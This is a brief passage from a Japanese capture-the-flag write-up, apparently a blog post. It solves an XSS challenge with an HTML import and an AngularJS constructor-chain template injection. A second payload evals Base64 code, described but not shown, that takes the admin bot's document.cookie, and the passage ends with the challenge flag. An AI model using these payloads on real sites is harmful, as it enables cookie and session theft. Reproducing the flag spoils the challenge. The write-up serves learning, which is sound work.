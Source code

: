 `{% raw %}<link rel="import" href="(URL)"><p ng-app>{{this['co'+'nstructor']['co'+'nstructor']('alert(1)')()}}{% endraw %}` という内容の記事を投稿するとアラートが表示されました。`{% raw %}<link rel="import" href="(URL)"><p ng-app>{{this['co'+'nstructor']['co'+'nstructor']('eval(atob("(document.cookie を iframe で取り出すコードを Base64 エンコードしたもの)"))')()}}{% endraw %}` という内容の記事を投稿すると (どうやら投稿された記事を巡回しているようで) 管理者からのアクセスが来、フラグが得られました。

```
XMAS{ez_xs5_ch41l_m3rry_chr1stm4ssssssss}
```